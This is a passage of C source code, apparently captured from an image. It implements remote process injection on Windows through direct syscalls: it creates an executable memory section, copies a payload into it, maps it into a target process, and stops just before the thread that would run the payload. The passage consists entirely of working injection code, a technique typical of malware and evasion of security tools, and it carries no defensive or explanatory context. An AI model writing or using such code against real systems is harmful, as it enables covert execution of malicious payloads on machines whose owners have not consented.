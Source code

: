 #### RemoteMappingInjectionViaSyscalls

```c
BOOL RemoteMappingInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 		= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};
	Syscall				St				    = { 0 };


	if (!InitializeSyscallStruct(&St)) {
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}

//--------------------------------------------------------------------------
	// Allocating local map view 

	if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewUnmap, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

	// Allocating remote map view 
	if ((STATUS = St.pNtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [R] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Remote Memory Allocated At : 0x%p Of Size : %d \n", pRemoteAddress, sViewSize);

//--------------------------------------------------------------------------
	
	// Executing the payload via thread creation
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();
```